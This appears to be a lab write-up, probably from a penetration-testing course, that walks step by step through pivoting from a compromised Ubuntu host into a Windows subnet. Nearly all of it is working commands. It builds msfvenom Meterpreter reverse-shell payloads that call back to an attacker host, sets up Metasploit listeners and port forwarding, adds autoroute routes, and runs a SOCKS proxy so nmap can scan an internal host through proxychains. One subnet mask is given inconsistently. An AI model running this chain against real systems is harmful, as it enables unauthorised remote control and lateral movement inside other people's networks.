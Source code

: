 # Attack Host 10.10.14.214
1. Create a payload to pop a meterperter reverse shell of the ubuntu host using msfvenom 
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.214 -f elf -o backupjob LPORT=9443 
```
2. Transfer payload to Ubuntu
3. Open a listener using metasploit on our host machine using exploit/multi/handler listening on port 9443
```
use exploit/multi/handler
```
```
set payload linux/x64/meterpreter/reverse_tcp
```
```
set lhost 0.0.0.0
```
```
set lport 9443
```
```
run
```
4. Execute backupjob payload on the Ubuntu Pivot Host
5. Meterpreter Session of Ubuntu Host
6. Next we need forward all data on port 1234 to our host machine on our 8080, so that when we execute the next windows reverse shell payload to our ubuntu machine on port 1234, it will forward the data to our listener on port 8080
```
meterpreter > portfwd add -R -l 8080 -p 1234 -L 10.10.14.214
```
```
meterpreter > bg
```
```
exploit/multi/handler
```
```
set lhost 0.0.0.0
```
```
set lport 8080
```
```
set payload windows/x64/meterpreter/reverse_tcp
```
```
run
```
7. create a payload using msfvenom that will execute a reverse shell on port 1234 on the ubuntu machine, which will then forward the data to our listener on port 8080 when we execute it.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 LPORT=1234 -f exe -o script.exe
```
8. Transfer payload to Windows machine using Evil-WinRm for example
9. Execute script.exe
## Workflow
### Execute script.exe -> Send back a reverse shell on port 1234 on the Ubuntu Host -> Data on port 1234 sent to our host machine on port 8080 -> Meterpreter session of Windows Host

10. Next we need to add the 172.16.9.0/13 using autoroute to route the traffic to our meterpreter session. Make sure the output of the added route is via our host machine ip address which is 10.10.14.214 in our case (Ubuntu host Only visible to the Red Windows Host 172.16.9.0/23)
```
meterpreter > run autoroute -s 172.16.9.0/23
```
```
meterpreter > run autoroute -p
```
```
bg
```
11. Next we need to use socks_proxy via meterpreter in order to be able to use proxychains and target the ubuntu host machine 172.16.9.25. We will have to use socks version 4a and change the SRVPORT to 9060 (since we used 9050 in order to access the WinRM session previously) and change the socks4 port to 9060 in our proxychains.config file
```
use auxiliary/server/socks_proxy
```
```
set srvport 9060
```
```
set version4a
```
```
run
```
12. Starting the SOCKS proxy server
```
vim /etc/proxychains4.conf
```
```
socks4 127.0.0.1 9060
```
13. Now we can use proxychains and it will use our meterpreter session to proxy the data to the ubuntu host 172.16.9.25 
```
proxychains nmap -sT 172.16.9.25
```